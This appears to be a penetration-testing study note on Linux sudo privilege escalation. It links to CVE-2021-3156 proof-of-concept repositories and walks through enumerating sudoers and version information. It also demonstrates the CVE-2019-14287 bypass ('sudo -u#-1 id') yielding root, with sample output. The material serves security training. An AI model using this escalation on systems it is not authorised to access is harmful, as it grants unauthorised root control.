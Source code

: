 # SUDO

- The latest sudo vulnerability is [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)
- Here is a [Proof-of-Concept](https://github.com/blasty/CVE-2021-3156)

The following will list which users and/or groups are allowed to run which programs with what privileges
``` python
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Determine sudo version
``` python
sudo -V | head -n1
```

Determine OS Version
```python
cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

## Sudo Policy Bypass

[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) This sudo vulnerability affects all versions below 1.8.28 .

The only pre-req for this exploit is the user having to be in the /etc/sudoers file. 

Sudo also allows commands to be executed with a users ID. The users ID can be found in the /etc/passwd file like so. The ID being ==1005==
```python
cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

If a negative ID is entered as sudo, this will default to 0, the root user
```python
sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Questions
